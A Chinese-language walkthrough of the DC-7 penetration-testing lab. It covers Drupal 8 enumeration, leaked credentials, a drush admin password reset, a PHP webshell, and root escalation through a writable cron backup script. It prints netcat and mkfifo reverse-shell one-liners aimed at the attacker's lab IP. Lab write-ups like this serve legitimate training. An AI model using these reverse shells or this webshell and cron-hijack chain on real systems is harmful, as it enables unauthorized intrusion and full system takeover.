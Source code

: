 靶机描述:
```
DESCRIPTION
DC-7 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

While this isn't an overly technical challenge, it isn't exactly easy.

While it's kind of a logical progression from an earlier DC release (I won't tell you which one), there are some new concepts involved, but you will need to figure those out for yourself. :-) If you need to resort to brute forcing or dictionary attacks, you probably won't succeed.

What you will need to do, is to think "outside" of the box.

Waaaaaay "outside" of the box. :-)
```


**环境配置**
一样的 ova导入 启动改NAT

靶机ip: 192.168.136.159

**信息收集**
nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 d0:02:e9:c7:5d:95:32:ab:10:99:89:84:34:3d:1e:f9 (RSA)
|   256 d0:d6:40:35:a7:34:a9:0a:79:34:ee:a9:6a:dd:f4:8f (ECDSA)
|_  256 a8:55:d5:76:93:ed:4f:6f:f1:f7:a1:84:2f:af:bb:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Welcome to DC-7 | D7
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


给的一个登录界面
还有个search

两处尝试sql注入都没啥用 大概率不是sql

再看了看感觉问题点应该是出在search这里

可以用AND OR这些搜索语法

网上能搜到Drupal8的一些CVE 但都是能够CreateCount的情况下
而我们只能登录和发reset邮箱

作者提示的`think out of the box`是指这儿
![img](DC-7/images/image.png)

omg... github一搜直接搜到源码
[here](https://github.com/Dc7User/staffdb)

config.php有mysql的账密

dc7user MdR3xOgB7#dW

但登录不进去
尝试SSH登录 成功

对html信息收集
找drupal网站的配置文件 (settings.php)

`/var/www/html/sites/default/settings.php`

找到数据库账密
```
$databases['default']['default'] = array (
  'database' => 'd7db',
  'username' => 'db7user',
  'password' => 'yNv3Po00',
  'prefix' => '',
  'host' => 'localhost',
  'port' => '',
  'namespace' => 'Drupal\\Core\\Database\\Driver\\mysql',
  'driver' => 'mysql',
);

```


连接发现没有表里面没有user的数据...
![img](DC-7/images/image-1.png)

emmmm

查看/var/mail
在dc7user的邮件找到
Cron 计划任务
![img](DC-7/images/image-2.png)

而且发现dc7user有权限运行
![img](DC-7/images/image-3.png)

那么就是用这个sh搞事情了罢
```sh
#!/bin/bash
rm /home/dc7user/backups/*
cd /var/www/html/
drush sql-dump --result-file=/home/dc7user/backups/website.sql
cd ..
tar -czf /home/dc7user/backups/website.tar.gz html/
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz
chown dc7user:dc7user /home/dc7user/backups/*
rm /home/dc7user/backups/website.sql
rm /home/dc7user/backups/website.tar.gz
```

其中有一个`drush`命令
[Drupal Drush常用命令](https://zhuanlan.zhihu.com/p/60880048)

这算是提示我们dc7user shell执行drush改admin密码...
(注意要进入/var/www/html 不然没权限)
`drush upwd admin --password="123456"`

```shell
dc7user@dc-7:/var/www/html$ drush upwd admin --password="123456"
Changed password for admin                                           [success]
```
admin 123456

以admin登录成功

接着就是CMS找漏洞

能找到自定义上传module的点
后缀有waf
再翻翻发现可以修改profile这里可以传图片
但也不大行

发现我们有权限install所以模块 找找有没有能上webshell的
emm  没找到

这个drupal没有php执行器...
用Install module给他安一个 `https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz`
![img](DC-7/images/image-4.png)

然后在Add Content的BasicPage可以自定义php
![img](DC-7/images/image-5.png)

emmm 直接写怎么写都会被过滤...
![img](DC-7/images/image-6.png)

想了想是刚刚安的php没刷新出来? TextFormat理应有php选项才对啊
后来发现要在extension把php勾上

![img](DC-7/images/image-7.png)

再回去就能写webshell 了 (php要换行 不然会被转义字符...)
![img](DC-7/images/image-8.png)

蚁剑连接后反弹shell到kali
`nc -c /bin/bash 192.168.136.146 7777`

接下来就是提权了
python起交互shell `python -c 'import pty;pty.spawn("/bin/bash")'`

可以利用先前找到的backups.sh
`/opt/scripts/backups.sh`

看看我们有没有写权限
`-rwxrwxr-x 1 root www-data 520 Aug 29  2019 backups.sh`


可以看到www-data对这个sh是有root同等权限的

注意写的时候用 `>>`...
手贱写成了 `>` 只能重开环境了...(从头导入ova...) (要是真实战就gg)


继续上面步骤 我们写入命令来提权

直接写 `/bin/bash`不行
可以写反弹shell

新方法:`rm /tmp/f ; mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 192.168.136.146 9999 >/tmp/f`
or
nc -c
`nc -c /bin/bash 192.168.136.146 9999`

但貌似只有新方法能跑... 不知道下面的有什么bug...

写入后运行 `./backups.sh`如果我们www-data运行的话反弹的是www-data权限

这个是写入定时任务让root触发

等吧

反正过程就是这样 不知道为什么就只成功一次... 还忘截图了

---
---

DC7较之前确实更加复杂了 虽说最后没打通(...) 但还是学到了很多
总结一下:
第一步也是最关键的一步 根据网站上泄露的信息搜索得到源码!!!!
然后SSH连接看mail 发现计划任务的sh脚本能提权 但dc7user没有写权限
通过脚本提示发现可以drush修改admin密码 - 这步也是关键操作 要结合CMS的特性来发现利用
登录后是CMS的getshell操作: 找到能写php的点 安装php 传马getshell
www-data进一步提权 写反弹shell进backups.sh
等待root启动定时任务获得root权限